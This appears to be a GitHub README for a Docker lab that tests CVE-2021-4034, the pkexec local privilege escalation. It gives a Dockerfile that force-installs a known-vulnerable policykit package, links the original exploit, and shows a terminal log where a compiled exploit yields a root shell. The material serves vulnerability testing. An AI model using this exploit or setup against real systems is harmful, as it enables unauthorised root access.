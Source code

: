# Test CVE-2021-4034 in a docker

## Original exploit
https://www.exploit-db.com/exploits/50689

## Links to deb files
https://launchpad.net/ubuntu/+source/policykit-1

## Setup

```bash
wget https://launchpad.net/ubuntu/+source/policykit-1/0.105-31/+build/21659401/+files/policykit-1_0.105-31_amd64.deb
```

## Dockerfile
```dockerfile
FROM ubuntu:jammy

RUN apt update
RUN apt install -y policykit-1
RUN adduser user
WORKDIR /home/user
ADD CVE2021-4034.tar.gz .

# install vulnerable deb file
ADD policykit-1_0.105-31_amd64.deb .
RUN dpkg --force-all -i policykit-1_0.105-31_amd64.deb

USER user
ENTRYPOINT [ "bash" ]
```

## Exploit
```
┌──(kali㉿kali)-[~/test/privescdock]
└─$ docker run --rm -it testpkexec
user@bc4803a951e9:~$ ls
Makefile  evil-so.c  evil.so  exploit  exploit.c  policykit-1_0.105-31_amd64.deb
user@bc4803a951e9:~$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
#    
```

